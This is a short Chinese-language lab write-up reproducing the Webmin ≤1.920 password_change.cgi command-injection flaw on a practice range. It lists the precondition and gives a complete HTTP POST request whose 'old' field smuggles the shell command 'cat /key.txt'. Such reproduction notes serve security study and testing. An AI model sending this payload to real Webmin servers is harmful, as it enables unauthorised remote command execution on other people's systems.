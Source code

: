 # 0x00 复现环境
使用复现环境：https://www.mozhe.cn/bug/detail/d01lL2RSbGEwZUNTeThVZ0xDdXl0Zz09bW96aGUmozhe  
复现版本：Webmin1.910

# 0x01 利用条件
需要开启密码重置功能，如下图  
![image](./0.png)  
查看webmin的配置文件/etc/webmin/miniserv.conf，可以发现passwd_mode的值已经从0变为了2

# 0x02 影响版本
Webmin<=1.920

# 0x03 漏洞复现
随便发起一个请求，burp拦截，修改为如下数据包  
```
POST /password_change.cgi HTTP/1.1
Host: 219.153.49.228:41489
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0Accept: text/html, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://219.153.49.228:41489/passwd/index.cgi?xnavigation=1
X-PJAX: true
X-PJAX-Container: [data-dcontainer]
X-PJAX-URL: passwd/edit_passwd.cgi?user=root
X-Requested-From: passwd
X-Requested-From-Tab: webmin
X-Requested-With: XMLHttpRequest
Content-Type: text/plain;charset=UTF-8
Content-Length: 60
Connection: close

user=yibudengtian&old=cat /key.txt&new1=123456&new2=123456
```

# 0x04 踩坑记录
坑1：
![image](./1.png)

# 参考链接
https://xz.aliyun.com/t/6040  
https://www.cnblogs.com/paperpen/p/11442532.html
